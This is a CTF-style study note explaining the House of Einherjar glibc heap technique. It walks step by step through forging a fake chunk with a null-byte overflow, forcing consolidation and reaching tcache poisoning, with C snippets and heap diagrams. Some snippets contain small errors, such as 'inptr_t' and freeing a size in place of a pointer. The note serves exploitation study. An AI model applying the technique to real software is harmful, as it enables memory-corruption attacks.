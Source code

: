 ```yaml
---
tags:
  - pwn/heap
  - pwn/technique
---
```

# Description
The **House of Einherjar** is a technique that leverages an [[off-by-one]] overflow on a buffer on the heap (most commonly a *null byte* overflow) to eventually gain an arbitrary chunk allocation.

TL;DR:
1. We use the off-by-one overflow to forge a fake freed, doubly-linked chunk
2. Free an adjacent chunk to coalesce it with our fake chunk
3. Our coalesced chunk lands in the [[bins#unsorted bin|unsorted bin]] ([[LIBC]] leak)
4. Perform [[tcache poisoning]] with your new [[overlapping chunks]]
# Attack
## Requirements
- Heap leak %% #pwn/heap-leak %%
- [[off-by-one]] overflow
## Result
- [[overlapping chunks]] / [[use after free|UAF]]
- [[tcache poisoning]]
## Process
### Parameters/Constraints
- Chunk `a` size: `sz_a`, can be any
- Chunk `b` size (desired tcache poisoning size): `sz_b`, must be tcache sized and have a least significant nibble of `0x8` (to enable the off-by-one overflow)
- Chunk `c` size: `sz_c`, must be greater than <abbr title="0x58">fastbin_max</abbr> so it will go to [[bins#unsorted bin|unsorted bin]]
	- If the off-by-one overflow is a *null byte* overflow, it must be at least 0x100, and it is most convenient if it least significant byte is 0x00 (so the overflow only changes the flags, and not chunk `c`'s size).
- Target pointer for allocation, `target`
### Steps
This analysis will assume that we have a *null byte* overflow and:
- `sz_a = 0x38`
- `sz_b = 0x28`
- `sz_c = 0xf8`
1. Allocate chunk `a`
   ```c
	inptr_t a = malloc(0x38); // real size of 0x40
	```
2. Create the fake chunk in the data section of chunk `a` (i.e., fake chunk's header will be right below chunk `a`).
   ```c
	a[0] = 0; // prev_size, doesn't matter
	a[1] = 0x40 + 0x30 - 0x10; // size is the combined *real* sizes of chunks a and b, minus 0x10 to account for chunk a's header
	a[2] = a; // fd
	a[3] = a; // bk, 
	```
	Note that we need `a->fd->bk == a` and `a->bk->fd == a`, thus `a->fd = a->bk = a` works!
3. Allocate chunk `b`. This will be the overlapping chunk with our fake chunk.
   ```c
	inptr_t b = malloc(0x28); // real size of 0x30
	```
4. Allocate chunk `c`.
   ```c
	inptr_t c = malloc(0xf8); // real size of 0x100
	```
	The heap structure now looks like this:
	```
	a:      0x0      0x41
	fake:   0x0      0x60
			&a       &a
			0x0      0x0
	b:      0x0      0x31
	        0x0      0x0
	        0x0      0x0
	c:      0x0      0x101
			...      ...
	```
5. Use off-by-one overflow on chunk `b` to overflow into the header of chunk `c`, resulting in chunk `c`'s `PREV_INUSE` flag being set to `0`.
   ```c
	memset(b, 0, 0x28 + 1);
	```
	That is,
	```
	c:      0x0      0x100
			...      ...
	```
6. Write a fake `prev_size` for our fake chunk right above chunk `c`. This will pass the "corrupted size vs. prev_size" error when attempting to consolidate
   ```c
	b[4] = 0x60
	```
	i.e.,
	```
	b:      0x0      0x31
			0x0      0x0
			0x0      0x0
	c:		0x60     0x100
			...      ...
	```
7. Fill [[bins#tcache|tcache]] for `sz_c` so chunk `c`, when freed, will go to unsorted bin not tcache (alternatively, this may be done before step 1, just makes debugging a bit more difficult that way)
   ```c
	for (int i = 0; i < 7; i++) {
		malloc(0xf8);
	}

	// no need to malloc again to prevent coalescing because chunks in tcache don't coalesce :)
	
	for (int i = 0; i < 7; i++) {
		free(0xf8);
	}
	```
8. Free chunk `c`, triggering consolidation with the fake chunk since chunk `c`'s `PREV_INUSE` flag is `0`, causing `free()` to think the previous chunk can be consolidated.
   ```c
	free(c);
	```
9. Now malloc some chunk of size greater than `sz_a = 0x38`:
   ```c
	d = malloc(0x70);
	```
   and we have overlapping chunks! The chunk `d` will take a portion of the unsorted bin chunk formed by the consolidation of chunk `c` with our fake chunk. This chunk thus overlaps with chunk `b`. From here, exploits vary depending on program constraints. The general idea is to achieve [[tcache poisoning]], e.g.
	1. Allocating and freeing another chunk of `sz_b = 0x28` into the tcache bin for (real) size 0x30. This is necessary so that we can eventually have the number of chunks in this tcache bin be set to 2, enabling us to allocate twice in a row later. See \[2\] for more details.
	2. Freeing chunk `b` into tcache.
	3. Writing into chunk `d` to corrupt chunk `b`'s next pointer for tcache poisoning.
	4. Allocate twice to get an arbitrary chunk allocation!
# Examples
- smiley CTF 2025 / pwn / limit
# References
1. [how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_einherjar.c) 
2. https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f